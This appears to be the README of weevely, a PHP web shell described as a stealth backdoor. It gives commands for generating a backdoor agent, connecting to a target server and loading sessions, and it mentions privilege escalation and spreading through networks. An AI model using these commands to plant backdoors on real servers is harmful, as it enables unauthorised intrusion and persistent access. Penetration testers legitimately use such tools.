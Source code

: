 


# weevely

Weevely is **a stealth PHP web shell that simulate telnet-like connection**. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.

```bash
# Run terminal to the target
 weevely <URL> <password> [cmd]

# Generate backdoor agent
weevely generate <password> <path/to/save/your/phpBackdoorNamefile.php>

# Load session file
weevely session <path>
```

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

Read the [Install](https://github.com/epinna/weevely3/wiki/Install) page to install weevely and its dependencies.

Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.

Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.
